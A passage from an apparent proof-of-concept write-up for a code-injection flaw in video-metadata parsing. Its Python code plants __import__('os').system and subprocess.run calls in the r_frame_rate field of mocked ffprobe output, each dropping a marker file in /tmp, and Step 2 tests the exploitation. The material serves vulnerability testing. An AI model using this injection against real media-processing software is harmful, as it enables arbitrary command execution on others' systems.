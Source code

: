 ```python
    
    malicious_metadata = {
        'streams': [
            {
                'codec_type': 'video',
                'width': 1920,
                'height': 1080,
                'r_frame_rate': '__import__("os").system("echo ATTACK_SUCCESSFUL > /tmp/attack_evidence.txt")',
                'codec_name': 'h264',
                'bit_rate': '5000000'
            }
        ],
        'format': {
            'duration': '10.0',
            'size': '12345678', 
            'bit_rate': '6000000',
            'format_name': 'mp4'
        }
    }
    
    return malicious_metadata

if __name__ == "__main__":
    create_malicious_video()
```

### Step 2: Test Vulnerability Exploitation

```python
#!/usr/bin/env python3
"""
Test the actual vulnerability exploitation.
"""

import sys
from pathlib import Path
import unittest.mock

# Add src to path
sys.path.insert(0, str(Path(__file__).parent / 'src'))

def test_exploitation():
    """Test actual exploitation of the vulnerability."""
    
    # Mock the ffprobe response with malicious data
    malicious_response = {
        'streams': [
            {
                'codec_type': 'video',
                'width': 1920,
                'height': 1080,
                'r_frame_rate': '__import__("subprocess").run(["touch", "/tmp/SECURITY_BREACH_CONFIRMED"])',
                'codec_name': 'h264',
                'bit_rate': '5000000'
            }
        ],
        'format': {
            'duration': '10.0',
            'size': '12345678',
            'bit_rate': '6000000', 
            'format_name': 'mp4'
```
